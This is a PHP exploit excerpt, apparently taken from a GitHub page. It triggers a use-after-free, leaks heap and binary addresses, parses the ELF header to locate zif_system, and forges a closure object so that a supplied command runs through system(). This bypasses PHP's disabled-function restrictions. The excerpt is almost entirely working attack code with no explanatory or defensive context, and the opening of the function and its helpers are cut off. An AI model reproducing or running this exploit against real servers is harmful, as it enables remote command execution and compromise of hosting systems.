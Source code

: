 ```php
    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
 
    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];
 
    $helper = new Helper;
    $helper->b = function ($x) { };
 
    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }
 
    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;
 
    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);
 
    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);
 
    $closure_obj = str2ptr($abc, 0x20);
 
    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }
 
    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }
 
    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }
 
    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }
 
    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }
 
    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler
 
    ($helper->b)($cmd);
    exit();
}
?>
```